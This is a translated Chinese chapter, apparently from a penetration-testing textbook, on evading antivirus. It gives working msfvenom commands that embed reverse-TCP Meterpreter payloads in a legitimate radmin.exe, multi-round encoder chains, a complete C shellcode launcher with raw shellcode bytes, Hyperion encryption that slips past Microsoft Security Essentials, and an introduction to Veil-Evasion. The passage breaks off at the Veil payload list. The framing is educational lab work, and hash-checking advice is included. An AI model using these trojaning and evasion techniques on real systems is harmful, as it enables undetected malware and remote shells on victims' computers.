







## 第十二章. 绕过防病毒应用程序

你的渗透测试客户很可能会使用某种防病毒解决方案。到目前为止，本书中的恶意可执行文件没有被防病毒应用程序删除，但防病毒程序规避是一个不断变化的领域。通常，你通过使用内存损坏漏洞并直接将负载加载到内存中——也就是说，永不触及磁盘——更有可能避免被检测到。话虽如此，随着攻击领域的转变，越来越强调客户端和社会工程学攻击，可能并非总能避免将负载写入磁盘。在本章中，我们将研究几种方法，尝试在将负载写入磁盘时隐藏我们的恶意软件，以避免被检测到。

## 木马

在第四章中，我们创建了一个独立的恶意可执行文件，运行 Metasploit 负载。尽管我们可能通过社会工程学手段欺骗用户下载并运行我们的恶意文件，但除了执行文件的负载外没有任何其他功能，可能会让用户意识到有异常。如果我们能够将负载隐藏在一个正常运行的合法程序中，并让负载在后台运行，我们将更有可能避开检测。这种程序被称为*木马*，它源自传说中的木马，结束了特洛伊战争。木马看似是一个无害的贡品，被带入曾经固若金汤的特洛伊城墙内，敌军士兵藏身其中，准备发起攻击。

在第八章中，我们遇到了一个木马：我们 Ubuntu 目标机上的 Vsftpd 服务器有一个后门，可以通过在用户名中输入一个笑脸符号来触发登录。攻击者侵入了 Vsftpd 的源代码仓库，并在程序中加入了额外的木马功能。从初次被攻破到被发现之间，任何从官方仓库下载 Vsftpd 的人都会得到一个被木马化的版本。

### Msfvenom

尽管反向工程二进制文件或获取源代码并手动添加木马代码超出了本书的范围，但 Msfvenom 工具有一些选项，我们可以用它将 Metasploit 负载嵌入到合法的二进制文件中。示例 12-1 展示了我们在之前的内容中未曾遇到的一些重要选项。

示例 12-1. Msfvenom 帮助页面

```
root@kali:~# **msfvenom -h**
Usage: /opt/metasploit/apps/pro/msf3/msfvenom [options] <var=val>

Options:
    -p, --payload    [payload]       Payload to use. Specify a '-' or stdin to
                                      use custom payloads
--*snip*--
  ❶-x, --template   [path]           Specify a custom executable file to use
                                       as a template
  ❷-k, --keep                        Preserve the template behavior and inject
                                      the payload as a new thread
--*snip*--
```

特别地，`-x` 标志 ❶ 允许我们使用可执行文件作为模板，在其中嵌入我们选择的有效负载。然而，尽管生成的可执行文件看起来与原始文件相似，添加的有效负载将暂停原始程序的执行，我们不应期望用户在启动时遇到看似挂起的可执行文件会多次运行。幸运的是，Msfvenom 的 `-k` 标志 ❷ 将保持可执行模板的完整性，并在新线程中运行我们的有效负载，从而允许原始可执行文件正常运行。

让我们使用 `-x` 和 `-k` 标志构建一个被植入木马的 Windows 可执行文件，它对用户看起来是正常的，但将在后台向我们发送一个 Meterpreter 会话。为此，我们使用 `-p` 标志选择有效负载，并按照 第四章中的说明设置相关的有效负载选项。任何合法的可执行文件都可以使用；你可以在 Kali Linux 的 */usr/share/windows-binaries* 中找到一些有用的 Windows 二进制文件用于渗透测试。

要将有效负载嵌入到 *radmin.exe* 二进制文件中，输入：

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -x /usr/share/windows-binaries/radmin.exe -k -f exe > radmin.exe**
```

我们的 Msfvenom 命令使用 `-p` 选项指定生成的有效负载。我们将 `LHOST` 选项设置为 Kali 的 IP 地址，这是有效负载运行时回调的系统。我们还可以设置 `LPORT` 选项。如本节所讨论，`-x` 选项选择一个可执行文件作为有效负载的嵌入目标。`-k` 选项将在独立线程中运行有效负载。`-f` 标志告诉 Msfvenom 将有效负载构建为可执行格式。一旦创建完成，在 Windows XP 或 Windows 7 目标上运行这个被植入木马的二进制文件。Radmin Viewer 程序应该看起来正常运行（图 12-1），但嵌入的有效负载应该为我们提供一个 Meterpreter 会话，前提是我们使用 *multi/handler* 模块设置了处理程序。

图 12-1. 被植入木马的 Radmin Viewer 可执行文件 检查 MD5 哈希以查找木马

我们的木马二进制文件应该能够让普通用户相信该程序是合法的。具有安全意识的用户应该在运行下载的文件之前，通过检查其 MD5 哈希值与供应商发布的值进行验证文件的完整性，前提是供应商提供了该值。MD5 哈希是一种文件指纹；如果文件发生更改，MD5 哈希也会随之变化。

让我们比较原始的 *radmin.exe* 与我们被植入木马的版本的 MD5 哈希值。在 Kali Linux 中，`md5sum` 程序将计算文件的 MD5 哈希值。对两个二进制文件运行 `md5sum`，你会发现它们的哈希值有显著差异，如 ❶ 和 ❷ 所示。

```
root@kali:~# **md5sum /usr/share/windows-binaries/radmin.exe**
❶2d219cc28a406dbfa86c3301e8b93146  /usr/share/windows-binaries/radmin.exe

root@kali:~# **md5sum radmin.exe**
❷4c2711cc06b6fcd300037e3cbdb3293b  radmin.exe
```

然而，MD5 哈希算法并不完美，经过篡改的二进制文件可能与原始文件具有相同的 MD5 哈希值，这被称为 *MD5 碰撞攻击*。因此，许多供应商也会发布一个安全哈希算法（SHA）哈希值。

当然，检查两个独立的哈希值比检查一个要好。SHA 家族包含多种哈希算法，所使用的版本会因厂商而异。Kali 自带多种 SHA 哈希计算工具。例如，`sha512sum`计算 64 位块大小的 SHA-2 哈希，如下所示。

```
root@kali:~# **sha512sum /usr/share/windows-binaries/radmin.exe**
5a5c6d0c67877310d40d5210ea8d515a43156e0b3e871b16faec192170acf29c9cd4e495d2e03b8d
7ef10541b22ccecd195446c55582f735374fb8df16c94343  /usr/share/windows-binaries/radmin.exe
root@kali:~# **sha512sum radmin.exe**
f9fe3d1ae405cc07cd91c461a1c03155a0cdfeb1d4c0190be1fb350d43b4039906f8abf4db592b060
d5cd15b143c146e834c491e477718bbd6fb9c2e96567e88  radmin.exe
```

在安装软件时，务必计算您下载版本的哈希值，并与厂商发布的值进行比较。

## 杀毒应用程序的工作原理

在我们尝试不同的技术将 Metasploit 有效载荷绕过杀毒程序之前，让我们讨论一下这些程序是如何工作的。大多数杀毒解决方案首先通过将潜在的危险代码与组成*杀毒定义*的一组模式和规则进行比较，来匹配已知的恶意代码。杀毒定义会随着每个厂商识别到新的恶意软件而定期更新。这种识别方式称为*静态分析*。

除了基于签名集的静态分析外，更多高级的杀毒解决方案还会进行恶意活动的检测，称为*动态分析*。例如，一个尝试替换硬盘上所有文件，或每 30 秒连接到已知的僵尸网络指挥与控制服务器的程序，正在表现出潜在的恶意活动，并可能被标记。

### 注意

一些杀毒产品，如 Google 的 Bouncer，会在上传到 Google Play 商店并通过静态分析的新应用程序中，在隔离的沙盒中运行，以尝试检测没有已知恶意签名的恶意活动。

## 微软安全防护软件

在本节中，我们将使用不同的方法降低检测率，请记住，即使您未能在所有杀毒厂商中获得 0%的检测率，如果您知道客户端环境中部署的是哪种杀毒解决方案，您可以集中精力清除该特定杀毒程序。在本章中，我们将尝试使用各种方法绕过微软安全防护软件。

在第一章中创建我们的 Windows 7 目标时，我们安装了微软安全防护软件，但我们没有开启实时保护功能以扫描下载或安装的文件。现在让我们开启此保护功能，看看是否能创建一个无法被检测到的木马。打开微软安全防护软件，选择**设置**标签，选择**实时保护**，勾选框以开启此服务，如图 12-2 所示。点击**保存更改**。

图 12-2 微软安全防护软件实时保护

截至目前，即使是免费的防病毒解决方案，如 Microsoft Security Essentials，也能有效地捕捉到 Metasploit 有效载荷。为了进行真实测试，尝试在开启实时保护的情况下安装木马程序*radmin.exe*。您应该会在屏幕右下角看到一个弹出窗口，如图 12-3 中所示。该文件会在用户运行之前被自动删除——这无疑会影响事情的进展。

图 12-3. 检测到恶意软件

## VirusTotal

查看哪些防病毒解决方案会将某个程序标记为恶意的一种方法是将该文件上传到 VirusTotal 网站（*[`www.virustotal.com/`](https://www.virustotal.com/)*）。截至目前，VirusTotal 使用 51 个防病毒程序扫描上传的文件，并报告哪些程序检测到恶意软件。VirusTotal 在图 12-4 中展示。

图 12-4. VirusTotal

要查看哪些防病毒程序将我们目前编写的木马程序*radmin.exe*检测为恶意文件，可以将文件上传到 VirusTotal 并点击**扫描它！**。由于防病毒定义不断更新，您的结果可能会有所不同，但正如在图 12-5 中所示，51 个扫描器中有 25 个检测到我们的文件为恶意文件。（页面底部显示了哪些扫描器检测到恶意软件。）

图 12-5. 木马二进制防病毒检测

### 注意

VirusTotal 与防病毒厂商共享上传的二进制文件，以便他们编写匹配的签名。防病毒公司利用 VirusTotal 的签名来改进其检测引擎，因此您上传到该网站的任何文件可能仅仅因为您上传了它就被防病毒软件检测到。为了避免这个风险，您可以在虚拟机上安装防病毒产品，并像我们在上一节中所做的那样手动测试您的木马。

## 绕过防病毒程序

很明显，如果我们想要绕过防病毒解决方案，我们需要更加努力地隐藏。除了将有效载荷直接放入可执行文件中，我们还可以尝试一些其他有用的方法来隐藏我们的 Metasploit 有效载荷。

### 编码

编码器是一些工具，可以帮助你避免在漏洞利用中出现会破坏漏洞利用的字符。（当我们在第十六章到第十九章编写自己的漏洞利用时，你会了解更多这些要求。）在撰写本文时，Metasploit 支持 32 种编码器。编码器会破坏有效载荷并添加解码指令，确保在执行之前解码有效载荷。普遍的误解是，Metasploit 的编码器是为了帮助绕过杀毒软件而设计的。某些 Metasploit 编码器会生成多态代码或变异代码，确保每次生成的编码有效载荷看起来都不同。这个过程使得杀毒软件厂商更难为有效载荷创建签名，但正如我们将看到的，它不足以绕过大多数杀毒解决方案。

要列出 Msfvenom 中所有可用的编码器，请使用**`-l encoders`**选项，正如示例 12-2 所示。

示例 12-2：Msfvenom 编码器

```
root@kali:~# **msfvenom -l encoders**
Framework Encoders
==================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/generic_sh                good       Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Generic ${IFS} Substitution Command Encoder
--*snip*—
  ❶x86/shikata_ga_nai             excellent  Polymorphic XOR Additive Feedback Encoder
--*snip*--
```

唯一一个排名优秀的编码器是* x86/shikata_ga_nai * ❶。*Shikata Ga Nai*是日语，意思是“无能为力”。编码器的排名基于输出的熵值。使用*shikata_ga_nai*时，即使解码器的存根也是多态的。这个编码器如何工作的细节超出了本书的范围，但可以简要地说，它会将有效载荷破坏到难以识别的程度。

告诉 Msfvenom 使用*shikata_ga_nai*编码器，并使用`-e`标志，正如示例 12-3 所示。此外，为了进一步混淆，我们将通过多个编码器运行有效载荷，每一轮都使用`-i`标志对前一轮的输出进行编码，并指定编码轮数（此例为 10 轮）。

示例 12-3：使用 Msfvenom 创建编码的可执行文件

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -e x86/shikata_ga_nai -i 10 -f exe > meterpreterencoded.exe**
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 344 (iteration=2)
--*snip*--
[*] x86/shikata_ga_nai succeeded with size 533 (iteration=9)
[*] x86/shikata_ga_nai succeeded with size 560 (iteration=10)
```

现在，将生成的二进制文件上传到 VirusTotal。正如你在图 12-6 中看到的，35 款测试过的杀毒软件检测到了我们的有效载荷，即使它已经经过编码。与我们将有效载荷嵌入到预构建可执行文件中的检测率相比，这个检测率更高。换句话说，*shikata_ga_nai*单独使用并不能解决问题。

图 12-6：VirusTotal 对编码二进制文件的检测结果

为了看看是否可以改进我们的结果，我们可以尝试使用多个 Metasploit 编码器对有效载荷进行实验。例如，我们可以将多轮*shikata_ga_nai*与另一个 Metasploit 编码器*x86/bloxor*结合使用，正如示例 12-4 所示。

示例 12-4. 使用 Msfvenom 进行多重编码

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -e x86/shikata_ga_nai -i 10 -f raw**❶ **> meterpreterencoded.bin**❷
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
--*snip*--
[*] x86/shikata_ga_nai succeeded with size 560 (iteration=10)
root@kali:~# **msfvenom -p -**❸ **-f exe -a x86**❹ **--platform windows**❺ **-e x86/bloxor -i 2 > meterpretermultiencoded.exe < meterpreterencoded.bin**❻
[*] x86/bloxor succeeded with size 638 (iteration=1)
[*] x86/bloxor succeeded with size 712 (iteration=2)
```

这次，我们像之前一样使用 Msfvenom，选择*windows/meterpreter/reverse_tcp*有效载荷并使用*shikata_ga_nai*进行编码。然而，与之前设置格式为*.exe*不同，这次我们输出为原始格式❶。另外，这次我们不是将结果输出到*.exe*文件中，而是将原始字节输出到*.bin*文件❷中。

现在我们使用*shikata_ga_nai*编码器的结果，并用*x86/bloxor*编码器进行编码。我们在使用 Msfvenom 时的语法与我们通常使用的有所不同。首先，我们通过选项`-p -` ❸将有效载荷设置为 null。并且，由于我们没有设置有效载荷，我们需要附加两个新选项，告诉 Msfvenom 如何编码我们的输入：`-a x86` ❹指定架构为 32 位，`--platform windows` ❺指定平台为 Windows。最后，在 Msfvenom 命令的末尾，我们使用`<`符号将前一个命令的*.bin*文件作为输入管道传入 Msfvenom ❻。生成的可执行文件将使用*shikata_ga_nai*和*x86/bloxor*编码。

生成的可执行文件在 VirusTotal 上的 33 个杀毒程序中被检测到——比单独使用*shikata_ga_nai*稍微好一些。你可能可以通过尝试不同的编码器组合，或将多个编码器连接在一起，或者通过结合不同技术来改善你的结果。例如，如果我们将有效载荷嵌入二进制文件并像这里展示的那样用*shikata_ga_nai*进行编码，结果会怎么样呢？

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -x /usr/share/windows-binaries/radmin.exe -k -e x86/shikata_ga_nai -i 10 -f exe > radminencoded.exe**
```

这只带来了轻微的改进：有效载荷被 21 个杀毒程序检测到。不幸的是，Microsoft Security Essentials 将这两个可执行文件都标记为恶意，如图 12-7 所示。如果我们要绕过杀毒软件检测，我们需要超越 Metasploit 编码器，去看更多的解决方案，尤其是针对 Windows 7 目标。

图 12-7. Microsoft 仍然将此二进制文件标记为恶意。

### 自定义交叉编译

作为渗透测试的事实标准，Metasploit 吸引了相当多的杀毒软件厂商的关注，他们将为 Msfvenom 生成的有效载荷创建检测特征作为优先任务。当 Msfvenom 创建可执行文件时，它使用预构建的模板，这些模板可以被杀毒软件厂商用来构建检测特征。

或许我们可以通过自己编译一个可执行文件来提高绕过杀毒软件的能力，使用原始 shellcode。让我们从一个简单的 C 模板开始，如示例 12-5 所示。（我们在第三章中讨论了 C 编程的基础。如果这个程序对你来说没有意义，请回顾那一节。）将此代码保存到一个名为*custommeterpreter.c*的文件中。

示例 12-5. 自定义可执行文件模板

```
#include <stdio.h>
unsigned char random[]= ❶

unsigned char shellcode[]= ❷

int main(void) ❸
{
        ((void (*)())shellcode)();
}
```

我们需要为`random`❶和`shellcode`❷变量填充数据，这两个变量都是无符号字符数组。我们的目标是，通过添加一些随机性并编译我们自己的 C 代码，足以欺骗防病毒程序。`random`变量将为模板引入一些随机性。`shellcode`变量将保存我们使用 Msfvenom 创建的有效负载的原始十六进制字节。`main`函数❸将在我们编译的 C 程序启动时运行，并执行我们的 shellcode。

像往常一样在 Msfvenom 中创建有效负载，但这次使用`-f`标志将格式设置为`c`，如示例 12-6 所示。这将生成我们可以放入 C 文件中的十六进制字节。

示例 12-6. 创建 C 格式的原始有效负载

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -f c -e x86/shikata_ga_nai -i 5**
unsigned char buf[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
--*snip*--
"\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x01\xc3\x29\xc6"
"\x85\xf6\x75\xec\xc3";
```

最后，我们需要加入一些随机性。在 Linux 系统中，找到随机性的好地方是*/dev/urandom*文件。这个文件是专门设计为伪随机数生成器，利用 Linux 系统中的熵来生成数据。

但是，如果我们仅仅使用`cat`命令输出*/dev/urandom*的数据，我们会得到大量不可打印的字符。为了获得适合字符数组的数据，我们将使用 Linux 的`tr`工具将*/dev/urandom*的数据转换为可打印字符。使用`tr -dc A-Z-a-z-0-9`，然后将命令传递给`head`命令，以仅输出来自*/dev/urandom*的前 512 个字符，如下所示。

```
root@kali:~# **cat /dev/urandom | tr -dc A-Z-a-z-0-9 | head -c512**
s0UULfhmiQGCUMqUd4e51CZKrvsyIcLy3EyVhfIVSecs8xV-JwHYlDgfiCD1UEmZZ2Eb6G0no4qjUIIsSgneqT23nCfbh3keRfuHEBPWlow5zX0fg3TKASYE4adL
--*snip*--
```

现在将来自*/dev/urandom*的数据放入 C 文件中的`random`变量。完成的文件请参见示例 12-7。（当然，你的随机数据和编码的有效负载会有所不同。）确保将字符串用引号括起来，并在末尾加上分号(`;`)。

示例 12-7. 完成的自定义 C 文件

```
#include <stdio.h>
unsigned char random[]= "s0UULfhmiQGCUMqUd4e51CZKrvsyIcLy3EyVhfIVSecs8xV-JwHYlDgfiCD1UEmZZ2Eb6G0no4qjUIIsSgneqT23nCfbh3keRfuHEBPWlow5zX0fg3TKASYE4adLqB-3X7MCSL9SuqlChqT6zQkoZNvi9YEWq4ec8
-ajdsJW7s-yZOKHQXMTY0iuawscx57e7Xds15GA6rGObF4R6oILRwCwJnEa-4vrtCMYnZiBytqtrrHkTeNohU4gXcVIem
-lgM-BgMREf24-rcW4zTi-Zkutp7U4djgWNi7k7ULkikDIKK-AQXDp2W3Pug02hGMdP6sxfR0xZZMQFwEF-apQwMlog4Trf5RTHFtrQP8yismYtKby15f9oTmjauKxTQoJzJD96sA-7PMAGswqRjCQ3htuWTSCPleODITY3Xyb1oPD5wt-G1oWvavrpeweLERRN5ZJiPEpEPRTI62OB9mIsxex3omyj10bEha43vkerbN0CpTyernsK1csdLmHRyca";

unsigned char shellcode[]= "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01"
"\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50"
"\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a"
"\x05\x68\x0a\x00\x01\x09\x68\x02\x00\x09\x29\x89\xe6\x6a\x10"
"\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e"
"\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x00\x6a\x04\x56"
"\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a"
"\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x01\xc3\x29\xc6"
"\x85\xf6\x75\xec\xc3";

int main(void)
{
        ((void (*)())shellcode)();
}
```

现在我们需要编译 C 程序。我们不能使用内置的 GCC 程序，因为它会将程序编译成适用于 Linux 系统的格式，而我们需要在 32 位 Windows 系统上运行。相反，我们将使用 Kali Linux 仓库中的 Mingw32 交叉编译器，这是我们在第一章中安装的。如果你还没有安装，使用**`apt-get install mingw32`**进行安装，然后使用**`i586-mingw32msvc-gcc`**编译自定义 C 文件。（除了程序名称，使用交叉编译器的语法与 Linux 内置的 GCC 相同，后者在第三章中讨论过。）

```
root@kali:~# **i586-mingw32msvc-gcc -o custommeterpreter.exe custommeterpreter.c**
```

现在将生成的可执行文件上传到 VirusTotal。截至目前，18 款防病毒产品已检测到该恶意文件。这是一个进步，但 Microsoft Security Essentials 仍然能够捕捉到我们的文件。

我们仍然需要更加努力，才能将恶意可执行文件传送到我们的 Windows 7 系统上。（你可能会通过使用来自其他仓库的另一个交叉编译器获得更好的成功率。）

### 使用 Hyperion 加密可执行文件

混淆有效负载的另一种方法是对其进行加密。一个可用的可执行文件加密工具是 Hyperion，它使用先进的执行标准（AES）加密，这是当前的行业标准。加密可执行文件后，Hyperion 会丢弃加密密钥。当可执行文件运行时，它会暴力破解加密密钥，将自己解密回原始可执行文件。

如果你有加密学方面的背景，整个过程应该引起你很多的警觉。AES 目前被认为是一个安全的加密标准。如果可执行文件无法访问加密密钥，它不应该能够在合理的时间内暴力破解密钥，肯定无法在我们的渗透测试时间窗口内快速破解。那是怎么回事？

事实证明，Hyperion 大大缩小了加密密钥的可能键空间，这意味着用它加密的二进制文件不应该被认为是密码学上安全的。然而，由于我们的目标和 Hyperion 作者的目标是混淆代码以绕过防病毒检测，因此密钥可以被暴力破解这一点并不是问题。

让我们首先使用 Hyperion 对一个简单的 Meterpreter 可执行文件进行加密，且不使用任何额外的防病毒规避技术，如 示例 12-8 所示。（我们在 第一章 中安装了 Hyperion。）

示例 12-8。运行 Hyperion

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -f exe > meterpreter.exe**
root@kali:~# **cd Hyperion-1.0/**
root@kali:~/Hyperion-1.0# **wine ../hyperion ../meterpreter.exe bypassavhyperion.exe**❶

Opening ../bypassav.exe
Copied file to memory: 0x117178
--*snip*--

Executing fasm.exe

flat assembler  version 1.69.31
5 passes, 0.4 seconds, 92672 bytes.
```

Hyperion 是为 Windows 系统编写的，但我们可以通过 Wine 程序在 Kali Linux 上运行它，正如 示例 12-8 所示。在运行 *hyperion.exe* 之前，请确保切换到解压源代码时创建的 Hyperion 目录。

Hyperion 接受两个参数：要加密的文件名和加密后的输出文件名。运行 Hyperion 对简单的 Meterpreter 可执行文件进行加密，如 ❶ 所示。生成的文件位于 Hyperion 1.0 目录中，因此可以从那里上传到 VirusTotal。

仅使用通过 Msfvenom 生成的 Meterpreter 可执行文件（没有编码、没有自定义模板或其他任何东西），并使用 Hyperion 加密，结果是 VirusTotal 中的 27 个防病毒程序检测到恶意行为。这还不是我们最低的检测率，但我们终于达到了目标。如 图 12-8 所示，Microsoft Security Essentials 没有检测到任何恶意活动！

图 12-8。Microsoft Security Essentials 无法检测恶意软件。

果然，我们可以在安装了杀毒软件的 Windows 7 系统上下载并运行 Hyperion 加密的可执行文件，并成功获得 Meterpreter 会话。我们还没有达到 0% 检测率——这是杀毒软件绕过研究者的“圣杯”——但我们已经能够实现我们的渗透测试目标。

### 注意

为了进一步降低检测率，可以尝试将 Hyperion 加密与本节中的其他技术结合使用。例如，使用 Hyperion 和自定义模板将我的检测率降至 14。

### 使用 Veil-Evasion 绕过杀毒软件

即使我们已经成功实现了绕过 Windows 7 上的 Microsoft Security Essentials 的目标，杀毒软件的格局变化迅速，因此，保持对最新工具和技术的关注是值得的。Veil-Evasion 是一个 Python 框架，自动创建绕过杀毒软件的有效载荷，为用户提供多种技术选择。我们在 第一章中介绍了如何在 Kali Linux 上安装 Veil-Evasion；如果需要复习，请参考该章节。

### 注意

随着 Veil-Evasion 更新，你的版本可能与这里显示的不同。

#### 使用 Windows API 的 Python Shellcode 注入

我们之前看过使用自定义 C 模板来编译和执行 shellcode。我们可以使用 Python 的 Ctypes 库来做类似的事情，它让我们能够访问 Windows API 函数调用，并且可以创建与 C 兼容的数据类型。我们可以使用 Ctypes 访问 Windows API 的 VirtualAlloc，它为 shellcode 创建一个新的可执行内存区域，并将该内存区域锁定在物理内存中，以避免 shellcode 被复制并执行时发生页面错误。`RtlMoveMemory` 用于将 shellcode 字节复制到 VirtualAlloc 创建的内存区域中。`CreateThread` API 创建一个新线程来运行 shellcode，最后，`WaitForSingleObject` 会等待直到新线程完成并且我们的 shellcode 执行完毕。

这些步骤合起来被称为 *VirtualAlloc 注入方法*。当然，这种方法会给我们一个 Python 脚本，而不是 Windows 可执行文件，但你可以使用多种工具将 Python 脚本转换为独立的可执行文件。

#### 使用 Veil-Evasion 创建加密的 Python 生成的可执行文件

Veil-Evasion 中实现的方法之一使用了前面描述的 Python 注入技术。为了进一步提高抗病毒保护，Veil-Evasion 可以使用加密。对于我们的示例，我们将使用结合了 AES 加密的 Python VirtualAlloc 注入，就像我们在本章前面的 Hyperion 示例中所做的一样。

要启动 Veil-Evasion，切换到 *Veil-Evasion-master* 目录并运行 *./Veil-Evasion.py*。你将看到一个基于菜单的提示，类似于我们在上一章的 SET 中看到的提示，如 示例 12-9 所示。

示例 12-9. 运行 Veil

```
root@kali:~/Veil-Evasion-master# **./Veil-Evasion.py**
========================================================================
 Veil-Evasion | [Version]: 2.6.0
========================================================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
========================================================================

 Main Menu

    28 payloads loaded

 Available commands:

    use         use a specific payload
    info        information on a specific payload
    list        list available payloads
    update      update Veil to the latest version
    clean       clean out payload folders
    checkvt     check payload hashes vs. VirusTotal
    exit        exit Veil
```

要查看 Veil-Evasion 中所有可用的有效载荷，请在提示符下输入**`list`**，如示例 12-10 所示。

示例 12-10. Veil-Evasion 有效载荷

```
[>] Please enter a command: **list**
Available payloads:
    1)    auxiliary/coldwar_wrapper
    2)    auxiliary/pyinstaller_wrapper

--*snip*--

    22)    python/meterpreter/rev_tcp
    ❶23)    python/shellcode_inject/aes_encrypt
    24)    python/shellcode_inject/arc_encrypt
    25)    python/shellcode_inject/base64_substitution
    26)    python/shellcode_inject/des_encrypt
    27)    python/shellcode_inject/flat
    28)    python/shellcode_inject/letter_substitution
```

